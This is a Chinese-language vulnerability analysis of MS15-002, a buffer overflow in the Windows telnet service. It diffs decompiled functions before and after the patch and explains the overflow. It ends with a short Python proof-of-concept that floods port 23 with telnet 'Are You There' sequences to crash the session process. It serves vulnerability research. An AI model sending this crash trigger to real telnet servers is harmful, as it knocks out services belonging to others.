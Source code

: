 # MS15-002 telnet服务缓冲区溢出漏洞分析与POC构造

0x00 漏洞原理分析
===========

* * *

MS15-002是微软telnet服务中的缓冲区溢出漏洞，下面对其原理进行分析并构造POC。

telnet服务进程为tlntsvr.exe，针对每一个客户端连接会相应启动执行一个tlntsess.exe进程，补丁修补的是tlntsess.exe文件，通过补丁比对，确定漏洞位置如下，函数为

```
signed int __thiscall CRFCProtocol::ProcessDataReceivedOnSocket(CRFCProtocol *this, unsigned __int32 *a2)

```

![enter image description here](http://drops.javaweb.org/uploads/images/7e5801225f09f4350f1753b6f8687befc40a40da.jpg)

补丁前，该函数分别为：

![enter image description here](http://drops.javaweb.org/uploads/images/1d444341362e5adb006955897554870b36e23fdf.jpg)

补丁后，该函数为：

![enter image description here](http://drops.javaweb.org/uploads/images/00151677b8008cc60f07d8c687c75b28bdd2d4d5.jpg)

也就是说原来一个缓冲区变成了两个，调用完

```
(*(void (__thiscall **)(CRFCProtocol *, unsigned __int8 **, unsigned __int8 **, unsigned __int8))((char *)&off_1011008 + v12))(v2,&v13,&v9,v6)

```

之后，先对缓冲区中的数据长度进行判断，如果

```
(unsigned int)(v9 - (unsigned __int8 *)&Src - 1) <= 0x7FE 

```

则判断目标缓冲区中可容纳字符的个数，如果

```
(unsigned int)((char *)v14 + v7 - (_DWORD)&Dst) >= 0x800

```

则退出，否则执行

```
memcpy_s(v14, (char *)&v18 - (_BYTE *)v14, &Src, v9 - (unsigned __int8 *)&Src)

```

将数据拷贝到Dst缓冲区。

而补丁前，只有一个缓冲区，调用

```
(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)

```

之前，先对缓冲区中的数据长度进行判定，只有当v13 - &Src <= 2048时才调用，v13 指向可用的缓冲区头部，而

```
(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)

```

处调用的函数，会对v13的值进行修改，如果调用

```
void __thiscall CRFCProtocol::DoTxBinary(CRFCProtocol *this, unsigned __int8 **a2, unsigned __int8 **a3, unsigned __int8 a4)

```

函数，可以看到函数修改了参数3的值，即*a3 += 3。

![enter image description here](http://drops.javaweb.org/uploads/images/431a86ea4ad644e0d16afd8e78ca4a413bfeac44.jpg)

经过分析可以知道，如果v13 - &Src =2047，则满足v13 - &Src <= 2048条件，此时如果(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)调用的是CRFCProtocol::DoTxBinary函数，且执行到了如下指令序列时，显然导致了缓冲区溢出。

```
v7 = *a3;
*v7 = -1;
v7[1] = -3;
v7[2] = a4;
v7[3] = 0;
*a3 += 3;

```

补丁后的版本，采用两个缓冲区，将临时缓冲区指针v9传递给

```
(*(void (__thiscall **)(CRFCProtocol *, unsigned __int8 **, unsigned __int8 **, unsigned __int8))((char *)&off_1011008 + v12))(v2,&v13,&v9,v6)

```

函数返回后判断v9指向的缓冲区中的数据长度，最后判断目的缓冲区剩余可用空间是否可以容纳v9指向的缓冲区中的数据，即对(unsigned int)((char *)v14 + v7 - (_DWORD)&Dst) >= 0x800的判断。

0x01 环境搭建与POC构造
===============

* * *

Win7上安装并启动telnet服务端，执行net user exp 123456 /ADD增加用户exp，通过net localgroup TelnetClients exp /ADD将该用户添加至TelnetClients组，这样就能够通过telnet客户端进行登录了。

调试发现

```
signed int __thiscall CRFCProtocol::ProcessDataReceivedOnSocket(CRFCProtocol *this, unsigned __int32 *a2)

```

中_a2为接收到的数据的长度，最大为0x400，v6指向接收到的数据，显然为了触发溢出，必须在调用(_(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)时，让数据出现膨胀，保证处理过后的Src缓冲区中的数据长度大于0x800。

![enter image description here](http://drops.javaweb.org/uploads/images/9052e7975fad71376f409d5c76ecc0334e08d06a.jpg)

查看(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)处可以调用的函数，

```
void __thiscall CRFCProtocol::AreYouThere(CRFCProtocol *this, unsigned __int8 **a2, unsigned __int8 **a3, unsigned __int8 a4)

```

显然会导致数据膨胀，a4是接收到的数据中的一个字节，执行后，a3指向的缓冲区中将写入9字节的固定数据。

![enter image description here](http://drops.javaweb.org/uploads/images/1d444341362e5adb006955897554870b36e23fdf.jpg)

通过wireshark截包，简单对协议进行分析，构造POC如下，让程序多次执行CRFCProtocol::AreYouThere函数，最终触发异常。

```
import socket  
address = ('192.168.172.152', 23)  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
s.connect(address)
data = "\xff\xf6" * 0x200
s.send(data) 
s.recv(512)  
s.close()

```

运行poc，在

```
signed int __thiscall CRFCProtocol::ProcessDataReceivedOnSocket( CRFCProtocol *this, unsigned __int32 *a2)

```

处设置断点，中断后可以看到_a2 = 0x400，_(DWORD_)(_(DWORD*)(this+0x1E40)+ 0x16c8)指向接收到得数据。

![enter image description here](http://drops.javaweb.org/uploads/images/e2029370dfa78b48ee39ff1025f6519d97ecfb11.jpg)

在函数返回前设置断点，执行之后，可以看到__security_check_cookie检测到了栈溢出，触发了异常，中断到调试器。

![enter image description here](http://drops.javaweb.org/uploads/images/166fac2d33f4417f8371530776295957996baf11.jpg)